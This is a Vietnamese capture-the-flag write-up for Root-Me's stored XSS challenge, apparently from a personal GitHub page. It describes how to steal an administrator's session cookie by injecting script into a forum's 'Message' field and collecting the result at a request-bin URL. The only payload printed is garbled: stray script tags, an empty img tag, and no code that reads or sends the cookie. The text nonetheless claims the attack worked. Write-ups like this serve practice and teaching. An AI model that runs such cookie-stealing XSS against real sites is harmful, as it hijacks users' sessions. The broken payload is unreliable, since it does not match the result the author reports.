


# [XSS – Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:


Kiểm tra source thì thấy đây là một form với phương thức **“POST”**. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input **‘Message’**:


Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với https://requestbin.in:


Như vậy, ta có một requestbin tại https://eojx5xx99skfihj.m.pipedream.net:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload:
```javascript
<script></script>document.write("</img>");</script>
```




Kiểm tra request bin, ta nhận được giá trị ADMIN\_COOKIE.



- Flag: "****************************"
